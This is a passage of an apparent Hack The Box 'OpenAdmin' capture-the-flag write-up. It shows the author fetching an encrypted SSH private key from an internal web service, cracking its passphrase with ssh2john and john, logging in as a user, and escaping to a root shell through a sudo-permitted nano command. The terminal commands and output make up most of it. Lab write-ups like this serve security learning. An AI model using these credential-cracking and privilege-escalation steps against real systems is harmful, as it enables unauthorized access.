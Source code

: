 by view the content, I'm sure that the `internal` is running on this port! now let use `curl` to get `main.php`
```console
jimmy@openadmin:/var/www/internal$ curl http://localhost:52846/main.php --output test.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1902  100  1902    0     0   168k      0 --:--:-- --:--:-- --:--:--  185k
jimmy@openadmin:/var/www/internal$ cat test.txt 
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
.
.
.
```
now copy the key content and paste in kali

# foothold as Joanna
as you can see the key is encrypted which will ask us for a passphase if you will use the key. I try to `ssh` and using jimmy's password again since in one of the `.php` said something like `dont forget that we are ninja`. But it didnt works.. so let use `ssh2john` to passphase hash then use `john` to crack it
```console
root@kali:/home/kali/HTB/openadmin# find / -name ssh2john*
/usr/share/john/ssh2john.py
kali@kali:~/HTB/openadmin$ /usr/share/john/ssh2john.py joanna.pub > hash.txt
kali@kali:~/HTB/openadmin$ sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
bloodninjas      (joanna.pub)
```
WE GOT THE PASSWORD!!! let's ssh as Joanna
```
kali@kali:~/HTB/openadmin$ ssh joanna@openadmin.htb -i joanna.pub
load pubkey "joanna.pub": invalid format
Enter passphrase for key 'joanna.pub': 
joanna@openadmin:~$ cat user.txt
```

# root
```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
oh I know this trick, seem like to gain root is easier that what I expected. we will use `nano` to open `/opt/priv` and then spawn an interactive system shell, read more about it on [GTFObins/nano](https://gtfobins.github.io/gtfobins/nano/)
```console
joanna@openadmin:~$ sudo /bin/nano /opt/priv
^R^X
Command to execute: reset; sh 1>&0 2>&0#                                                                                       
#  Get Help                                                    ^X Read File
#  Cancel                                                      M-F New Buffer
```